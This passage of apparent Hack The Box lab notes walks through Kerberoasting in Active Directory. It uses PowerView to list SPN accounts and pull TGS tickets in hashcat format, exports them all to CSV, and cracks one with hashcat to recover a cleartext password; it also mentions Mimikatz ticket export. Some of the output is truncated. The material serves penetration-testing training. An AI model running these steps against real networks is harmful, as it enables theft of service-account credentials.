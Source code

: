 Now we can check and confirm that we have a hash that can be fed to Hashcat.

<mark style="color:green;">**Viewing the Prepared Hash**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ cat sqldev_tgs_hashcat 

$krb5tgs$23$*
```
{% endcode %}

We can then run the ticket through Hashcat again and get the cleartext password `database!`.

<mark style="color:green;">**Cracking the Hash with Hashcat**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 

```
{% endcode %}

If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.

***

### <mark style="color:red;">Automated / Tool Based Route</mark>

<mark style="color:green;">**Using PowerView to Extract TGS Tickets**</mark>

```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```

From here, we could target a specific user and retrieve the TGS ticket in Hashcat format.

<mark style="color:green;">**Using PowerView to Target a Specific User**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
{% endcode %}

Finally, we can export all tickets to a CSV file for offline processing.

<mark style="color:green;">**Exporting All Tickets to a CSV File**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
{% endcode %}
